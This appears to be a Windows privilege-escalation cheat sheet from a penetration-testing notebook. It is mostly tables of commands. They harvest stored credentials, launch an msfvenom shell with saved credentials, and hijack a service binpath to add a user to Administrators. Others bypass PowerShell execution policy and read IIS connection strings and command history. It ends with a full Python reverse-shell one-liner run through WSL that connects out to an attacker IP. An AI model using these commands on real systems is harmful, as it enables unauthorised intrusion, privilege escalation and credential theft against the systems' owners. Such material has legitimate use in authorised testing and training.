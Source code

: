 # Windows Enumeration

| Command | Summary |
| ---------------------------- | ---------------------------- |
| ```dir <name of file> /s /p``` | Search the file system, recursively for the filename |
| ```whoami /priv``` | Gets the privileges for current user context |
| ```whoami /groups``` | Gets a listing of the groups for the current user context |
| ```more < name_of_alternate_data_stream.txt``` | Returns the contents of the alternate data stream | 
| ```cmdkey /list``` | We may get lucky and find stored credentials |
| ```runas /savecred /user:DOM.LOCAL\Administrator "C:\Users\<user>\Documents\shell.exe"``` | If the user is storing creds, launch an msfvenom shell | 
| ```accesschk64.exe -wvu <file.exe>``` | This will check the files access writes |
| ```icacls.exe <filename.txt>``` | Does the same thing as accesschk64.exe but is native to OS |
| ```accesschk64.exe -uwcv Everyone *``` | Searches the file system for world-writeable service binaries |
| ```accesschk64.exe -uwcv <service name>``` | Once you identify a service, get more detail by searching for the single service name |
| ```sc query <service name>``` | We can gather the binmary path name by using the sc query command |
| ```sc config <service name> binpath= "net localgroup administrators <username> /add"``` | Modify binpath |
| ```powershell.exe -nop -ep bypass . .\PowerUp.ps1``` | With modified PowerUp.ps1, will run as you invoke program |
| ```wmic product get name,version``` | Uses WMI to get installed software |
| ```Get-ChildItem -Hidden -Path C:\Users\username\Desktop\``` | Searches directory for hidden files | 
| ```wmic service where "name like 'service name'" get Name,PathName``` | Uses WMI to get service information | 
| ```Get-Service \| where-object Name -match 'Service Name' ``` | Using Powershell search for service information |
| ```Get-Process -Name name-of-process``` | Using Get-Process find process PID | 
| ```netstat -noa \|findstr "LISTENING" \|findstr "1337"``` | Using the PID of the process, find out what port its running on | 
| ```net accounts``` | Check the logs settings on a machine such as passowrd policy, etc.|
| ```net accounts /domain``` | Check if the machine belongs to a domain | 
| ```net share``` | Checks for a list of open shares |
| ```%userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt``` | Check PowerShell command history cmd.exe version |
| ```$Env:userprofile\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt``` | Check PowerShell command history Powershell version |

| Check | Description |
| ---------------------------- | ---------------------------- |
| PowerShell IWR vs IEX | Be sure to remember IEX will run the script in memory, useful for loading SharpHound.ps1 remotely |
| What tokens are on machine | If there tokens on the machine, you may be able to switch into that user, and elevate privileges |
| Check for autoruns | These are programs that can run with elevated permissions. If they have execissive permssions (EVERYONE) you can replace the binary and elevate access |
| Check for Binary Path issues| See command above, its important that we can restart these services to affect them |
| If Binary Path has issue | We can modify the path to our malicious payload, add your self to Administrators group, or use other techniques |
| Check with PowerUp.ps1 | Make sure you have modified the script to Invoke-AllChecks |
| Older Windows OS Win7, Win2008 | Check MS10-059 (Chimichurri) ```https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS10-059``` |
| Be sure to check program files and (x86) | Enumerate all of the software that might be loaded on the machine |
| Check for IIS credentials | ```type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString``` |

## Common Location for WSL.exe
```
c:\Windows\WinSxS\amd64_microsoft-windows-lxss-wsl_31bf3856ad364e35_10.0.17134.1_none_686f10b5380a84cf\wsl.exe
```

## Python Reverse Shell with WSL.exe
```
c:\Windows\WinSxS\amd64_microsoft-windows-lxss-wsl_31bf3856ad364e35_10.0.17134.1_none_686f10b5380a84cf\wsl.exe python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.19",12345));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
```

## Windows Kernel Exploits
- [Windows Kernel Exploits](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS10-059)